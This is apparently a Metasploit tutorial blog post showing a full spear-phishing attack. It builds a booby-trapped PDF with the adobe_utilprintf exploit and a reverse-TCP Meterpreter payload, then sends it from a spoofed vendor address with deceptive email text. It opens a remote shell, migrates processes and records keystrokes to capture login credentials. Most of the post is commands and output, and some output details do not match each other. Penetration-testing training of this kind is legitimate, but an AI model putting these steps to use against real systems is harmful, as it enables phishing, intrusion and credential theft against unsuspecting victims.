 ```yaml
---
draft: false
title: MSF Binary Client Exploits
linkTitle: Binary Client Exploits
weight: 200
translationKey: msf-binary-client-exploits
description: In this article, we will examine the client-side exploits for Windows and Linux.
date: 2017-05-20T13:13:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
url: /msf-binary-client-exploits/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Client-Side Exploits

In our previous articles, we have seen client-side exploits used for Windows and Linux. In this article, I want to look at another scenario.

Let's assume that after a successful information gathering phase, we have reached the following conclusion about an IT company. The company;

1) The systems they use are state-of-the-art.

2) The IT department's e-mail address: <itdept@victim.com>

Now, in this case, we want to reach a computer in the IT department and run a keylogger (keylogger). In this way, it will be possible to obtain useful information by recording the keys they press on the keyboard.

Let's run Metasploit Framework with the `msfconsole` command. Let's prepare a PDF document that will attract the IT department's attention and that they will want to open and read. Remember that the document should have a security-related and logical title. It should also not be detected as malicious by antivirus software.

To prepare such a PDF document, we will use the **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Vulnerability**. For this, let's load the `exploit/windows/fileformat/adobe_utilprintf` module.

```bash
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME => BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(adobe_utilprintf) > set LPORT 4455
LPORT => 4455
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 FILENAME BestComputers-UpgradeInstructions.pdf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
 LHOST 192.168.8.128 yes The listen address
 LPORT 4455 yes The listening port
Exploit target:

 Id Name
 -- ----
 0 Adobe Reader v8.1.2 (Windows XP SP3 English)
```

As can be seen from the output, you can set the `FILENAME` variable, that is, the file name, as you wish. In the Payload section, we need to set the `LHOST` and `LPORT` variables as the information of the computer that will be listened to. Then, let's run the module with the `exploit` command.

```bash
msf exploit(adobe_utilprintf) > exploit

> Creating 'BestComputers-UpgradeInstructions.pdf' file...
> BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) >
```

As you can see, the PDF file was created in `/root/.msf4/local/`. Let's copy this file to the `/tmp` folder for easy access. Now, before sending our file to the relevant e-mail address, we need to run the listener module on our computer. For this, we will use the `exploit/multi/handler` module. We make sure that the `LHOST` and `LPORT` values ​​are the same as the values ​​we gave when creating the PDF file.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4455
LPORT => 4455
msf exploit(handler) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

After activating the listener module, we need to somehow send the PDF file to `itdept@victim.com`. You can do this with the sample command below. You can also use other email sending methods. The command is provided as an example.

```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```

Let's briefly explain the parameters used in this example command.

`-t`: TO, the recipient address. `-f`: FROM, the sender address. `-s`: SMTP Server IP address. `-u`: TTITLE, the subject of the mail. `-a`: ATTACHMENT, the attached file.

When you type the command and press ENTER, you can start writing the Text part of the e-mail. After the writing is complete, you can complete the process with the CTRL+D keys. Thus, the mail will be sent to the recipient address.

When the recipient receives this mail and checks it with the Antivirus program, it will get a harmless result, but when he clicks to open the file, even if he sees a blank screen, communication with the listening computer is actually established.

```bash
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (718336 bytes)
session[*****] Meterpreter session 1 opened (192.168.8.128:4455 -> 192.168.8.130:49322)

meterpreter >

```

As you can see, when the PDF file is opened, the Meterpreter shell is opened. Now it is possible to run various commands on the other party's computer. Finally, it is possible to record keystrokes by running the `post/windows/capture/keylog_recorder` module.

```bash
meterpreter > ps

Process list
**============**

 PID Name Path
 --- ---- ----
 852 taskeng.exe C:\Windows\system32\taskeng.exe
 1308 Dwm.exe C:\Windows\system32\Dwm.exe
 1520 explorer.exe C:\Windows\explorer.exe
 2184 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 2196 VMwareUser.exe C:\Program FilesVMware\VMware Tools\VMwareUser.exe
 3176 iexplore.exe C:\Program Files\Internet Explorer\iexplore.exe
 3452 AcroRd32.exe C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter > run post/windows/manage/migrate

> Running module against V-MAC-XP
> Current server process: svchost.exe (1076)
> Migrating to explorer.exe...
> Migrating into process ID 816
> New server process: Explorer.EXE (816)

meterpreter > sysinfo
Computer: OFFSEC-PC
OS: Windows Vista (Build 6000, ).

meterpreter > use priv
Loading extension priv...success.

meterpreter > run post/windows/capture/keylog_recorder

> Executing module against V-MAC-XP
> Starting the keystroke sniffer...
> Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
> Recording keystrokes...
```

You can check the recorded keys from the contents of the file `20110323091836_default_192.168.1.195_host.windows.key_832155.txt`.

```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support, I tried to open his file 2-3 times with no success. I even had my admin and CFO tru y it, but no one can get it to open. I turned on the rmote access server so you can log in to fix this problem. Our user name is admin and password for that session is 123456. Call or email when you are done. Thanks IT Dept
```

As can be seen, the IT employee unknowingly revealed in his keystrokes that his username was `admin` and his password was `123456`
